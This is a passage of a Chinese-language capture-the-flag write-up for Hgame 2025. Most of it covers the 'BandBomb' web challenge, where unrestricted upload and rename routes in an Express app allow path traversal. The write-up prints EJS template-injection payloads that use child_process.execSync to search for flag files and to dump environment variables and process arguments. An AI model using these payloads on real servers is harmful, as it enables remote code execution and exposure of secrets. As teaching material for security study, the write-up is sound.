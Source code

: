 游戏一开始只要吃掉原地的豆子就进入下一关，瞬间刷满通关，获得 flag（简单 base64+ 栅栏 fence 解码）

![](/img/Hgame2025WP/Y3ySbNIZMoEK5txChctcZ6XTnbf.png)

### Level 47 BandBomb

审计 app.js 代码，`/upload` 路由上传文件到 `/app/uploads/` 目录，没有什么限制，`/rename` 路由处理重命名，同样几乎没有限制，可以实现目录穿越，相对路径基于 `/app/uploads/` 目录，`/` 路由列出 `/app/uploads/` 目录下的所有文件。使用 express 框架，渲染 ejs 模板返回前端，本地的 `/app/public/` 目录映射到 `/static` 路由存放静态资源。

接下来上靶机，上传任意文件 app.js，使用 BP 向 `/rename` POST 方法发包，修改文件名 newName 为 `../app.js` 即可移动文件到 `/app/` 目录，覆盖原 app.js，但是服务不重启无法利用。同时利用 rename 可以作用于任意目录的文件所以也可以试探文件是否存在，若存在可成功重命名，若不存在则会返回 500 报错。

考虑靶机为 Nodejs 环境，排除一句话木马，尝试 ejs 模板注入。用 rename 试探到 `/app/view/mortis.ejs`，将其重命名为 `../public/mortis.ejs`，下载修改插入

`<%= process.mainModule.require('child_process').execSync('find / -type f -name "*flag*" 2>/dev/null -exec cat {} +') %>`，再上传用 rename 移入 `/app/view/`，刷新，成功执行命令得到返回，但没有找到 flag。

这里找了好一会，最后在环境变量里终于找到了。

```javascript
<%= 
(() => {
  const execSync = process.mainModule.require('child_process').execSync;
  const env = execSync('env').toString();
  const procCmdline = execSync('cat /proc/1/cmdline').toString();
  return `环境变量:\n${env}\n\n进程参数:\n${procCmdline}`;
})()
 %>
```

